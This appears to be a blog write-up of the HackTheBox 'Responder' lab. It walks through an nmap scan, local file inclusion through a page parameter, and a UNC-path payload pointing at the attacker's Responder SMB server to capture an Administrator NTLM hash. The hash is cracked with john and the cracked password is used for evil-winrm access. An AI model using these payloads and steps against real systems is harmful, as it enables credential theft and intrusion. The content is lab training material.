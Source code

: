 ```yaml
---
title: "HackTheBox - Responder"
author: Nasrallah
description: ""
date: 2022-06-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, lfi, responder, winrm, cracking, john]
img_path: /assets/img/hackthebox/machines/responder/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello Hackers, I hope you are doing well. Today we are doing [Responder](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open     http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target is a windows machine having 2 open ports, port 80 running Apache web server as well as WINRM on port 5985.

## Web

Navigate to the web page. http://10.129.230.170/

![](1.png)

We get redirected to unika.htb . We need to add it to our hosts file (/etc/hosts)

![](2.png)

Now go to http://unika.htb/

![](3.png)

Looking through the page, we see a section where we can change language. When we change the option to GR, the website takes us to the German version of the website.

![](4.png)

In the URL we see the `german.html` page is loaded by the `page` parameter.

This might be vulnerable to LFI (**L**ocal **File** **I**clusion).

>LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

# **Foothold**

Since this is a windows machine, one of the files we use to test for lfi is `C:\Windows\System32\drivers\etc\hosts`.

Now let's add that to the url and request the file.`http://unika.htb/index.php?page=C:\Windows\System32\drivers\etc\hosts`.

![](5.png)

Great! The target is vulnerable to LFI.

We are going to leverage that and get a NTLM hash using a tool called `Responder`.

When we run `Responder`, it will set up an SMB server listening for incoming connections. Then we'll attempt to perform the NTLM authentication to that server using the LFI we found. `Responder` sends a challenge back for the server to encrypt with the user's password. When the server responds, `Responder` will use the challenge and the encrypted response to generate the NetNTLMv2.

First, let's run Responder : `udo responder -I tun0`

![](6.png)

with the Responder server ready, we tell the server to include a resource from our SMB server by setting the page parameter: `http://unika.htb/index.php?page=//10.10.16.29/somefile`.

![](7.png)

Great! We not only got a hash, but it's Administrator's hash.

Put the hash in file so that we can crack it.

![](8.png)

Using john and rockyou wordlist, let's crack the hash.

![](9.png)

Great! Got Administrator's password.

We have seen earlier that Winrm service is running. Using a tool called `evil-winrm`, we can connect to that service as Administrator with the password we cracked. `evil-winrm -i 10.129.95.234 -u Administrator -p badminton`

![](9.png)

Excellent! We got in.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

# References
